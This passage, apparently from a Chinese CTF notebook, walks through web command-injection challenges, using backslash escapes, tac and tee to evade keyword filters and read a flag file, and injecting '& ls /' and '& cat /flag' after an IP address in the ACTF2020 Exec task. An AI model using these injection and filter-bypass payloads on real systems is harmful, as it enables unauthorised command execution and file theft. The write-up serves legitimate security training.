 发现过滤了许多函数 但是没有过滤 | 和 \ 所以我们可以利用命令进行读取

```php
command | tee 文件名
```

payload

```php
?url=l\s / | tee 1.txt
```

然后访问1.txt文件

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736470111984-8817b79c-feb7-4e53-a17f-f19d365c8c03.png)

发现flllllaaaaaaggggggg疑似flag  由于cat被禁用了 所以我们使用tac

```php
url=tac /flllllaaaaaaggggggg | tee 2.txt
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736470317232-519e61a7-d2dd-47b0-a7fd-4ddcb6c5ddc0.png)

发现还是被过滤了 才发现la也被禁用 于是

```php
?url=tac /flllll\aaaaaaggggggg | tee 2.txt
```

写入后访问2.txt得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736470459107-ec8aec70-864a-4d25-93a9-671e5f609232.png)

## [ACTF2020 新生赛 Exec]
随便输入一个地址127.0.0.1 发现存在回显 可以确定是命令执行漏洞

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736471085984-e978dade-fc94-4a63-b670-e73d306e9e39.png)

接着利用命令列出根目录

```php
127.0.0.1 & ls /
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736471266224-1af06f99-2da4-45a8-b8fa-fb19b1608750.png)

发现flag文件 接着

```php
127.0.0.1 & cat /flag
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736471311296-738f9bf9-46a5-4c7e-82c0-372c37f88c2e.png)

得到flag

## [SWPUCTF 2022 新生赛]webdog1__start
```php
Do you really reading to start be a web dog? DO you think you go here from where? 
```
